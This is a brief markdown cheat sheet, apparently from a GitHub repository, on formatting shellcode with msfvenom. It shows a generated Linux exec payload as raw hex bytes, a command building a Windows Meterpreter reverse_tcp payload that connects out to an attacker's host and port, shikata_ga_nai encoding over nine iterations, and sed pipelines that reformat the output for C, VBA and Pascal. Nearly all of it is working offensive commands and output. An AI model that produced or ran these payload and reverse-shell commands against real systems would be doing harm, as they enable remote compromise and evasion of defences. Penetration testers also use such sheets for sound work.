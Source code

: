 # Shellcode Format

- **Pipe it through hexdump**

```
$ msfvenom -p linux/x86/exec cmd=whoami R | hexdump -ve '"\\\x" 1/1 "%02x"'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 42 bytes

\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x07\x00\x00\x00\x77\x68\x6f\x61\x6d\x69\x00\x57\x53\x89\xe1\xcd\x80
```

- Any raw shellcode binary even if it's not related to metasploit using via `generic/custom` payload

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw > payload-x86.bin`

`$ msfvenom -p generic/custom payloadfile=./payload-x86.bin -a x86 --platform windows -f c -o sc.c`

- You can also use a calculator program as a shellcode

`$ msfvenom -p generic/custom payloadfile=/home/user/calc.exe -a x64 --platform windows -f vba-exe`

- **Pipe it through msfvenom**

`$ cat payload-x86.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f c -i 9`

- **Generate formatted Pascal shellcode**

`$ msfvenom -p <payload> -f c | sed -r 's/[\x]+/$/g' | sed -r 's/[\]+/,/g' | sed -r 's/["]+//g' | sed -e 's/$/\,/' | cut -c 2-`